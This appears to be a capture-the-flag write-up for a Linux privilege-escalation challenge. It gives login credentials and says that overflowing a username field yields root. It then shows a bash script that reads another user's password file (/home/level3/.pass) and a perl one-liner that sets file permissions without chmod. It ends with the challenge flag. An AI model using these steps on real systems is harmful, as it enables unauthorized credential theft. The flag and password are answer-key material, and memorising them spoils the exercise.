

# Level2 Pwnage Linux Level Up Solution

here we need to give username: `nobody`, password: `Ksdkjkk32avsh`, and then in the command we can overflow the user and put there `root`.

this is our short script: [level2.py](./scripts/level2/level2.py)

the file I created is `my_script.sh`, it contains this:
```
#!/bin/bash
pass=$(cat /home/level3/.pass)
echo "Passowrd is: $pass"
```


Notice that we can't use chmod, so i used this: 
`perl -e 'chmod 0755, "my_script.sh"'`



**Flag:** ***`b130hOOfGftXUfmRZlgD`***
